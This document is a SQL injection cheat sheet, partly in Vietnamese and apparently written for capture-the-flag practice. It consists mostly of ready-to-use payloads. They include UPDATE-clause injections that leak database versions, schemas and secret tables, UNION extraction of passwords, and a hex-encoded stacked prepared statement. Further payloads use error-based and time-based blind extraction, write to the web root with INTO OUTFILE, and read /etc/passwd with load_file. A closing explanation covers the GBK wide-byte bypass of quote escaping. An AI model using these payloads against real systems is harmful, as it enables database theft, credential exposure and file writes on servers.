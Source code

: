 ```UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>```
UPDATE usertable SET nickName='capybara',email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
UPDATE usertable SET nickName='',nickName='database()', email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```
SQLite

```',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='```

```',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='```

```',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='```

```' UNION SELECT 1,group_concat(password) FROM users-- -```



Use preparestatement to execute query 

"select flag from \`1919810931114514\`" => 73656c65637420666c61672066726f6d20603139313938313039333131313435313460

```1'; prepare abc from 73656c65637420666c61672066726f6d20603139313938313039333131313435313460; execute abc```


Sử dụng extractvalue: -1' and extractvalue(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata)))-- -

Time base: '1)) union select 1,2,elt((select substr('abc',1,1) from information_schema.schemata limit 0,1)='a',sleep(5))-- -

Sử dụng updateXML: 1',updatexml(1,concat(0x7e,(select database()),0x7e),1))-- -

select name from demo where name = 'dasd' union values(char(97)||char(100)||char(109)||char(105)||char(110))

1/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))

# Load file 
?id=1')) UNION SELECT(select database()),2,3 into outfile "/var/www/html/<web-root>/1.txt";-- -

?id=1')) union select load_file("/etc/passwd"),2,3 into outfile "/var/www/html/<web-root>/2.txt";-- -

# Bypass add slash into single quote us

Nguyên tắc: Khi mySQL sử dụng mã hóa GBK, nó sẽ coi hai ký tự là một ký tự Trung Quốc, ví dụ: %aa%5c là một ký tự Trung Quốc (mã ascii trước đó lớn hơn 128 để đạt được phạm vi ký tự Trung Quốc). Khi chúng ta lọc ', chúng ta thường sử dụng ý tưởng chuyển đổi ' thành \' (hàm hoặc ý tưởng chuyển đổi sẽ được giới thiệu tại thời điểm của mỗi cấp độ).

Do đó, chúng ta đang cố gắng tìm cách loại bỏ \ được thêm vào trước đó, và nói chung có hai cách suy nghĩ:

%df ăn \ Lý do cụ thể là urlencode(\') = %5c%27, chúng ta thêm %df trước %5c%27 để tạo thành %df%5c%27 và mysql được đề cập ở trên sẽ coi hai byte là ký tự Trung Quốc khi mã hóa bằng GBK, trong đó %df%5c là ký tự Trung Quốc và %27 được sử dụng như một ký hiệu riêng biệt bên ngoài, điều này cũng đạt được mục đích của chúng ta.
Lọc ra \ trong \', ví dụ: bạn có thể xây dựng %**%5c%5c%27 và %5c sau sẽ được chú thích bởi %5c trước đó. Đây cũng là một cách để bỏ qua.




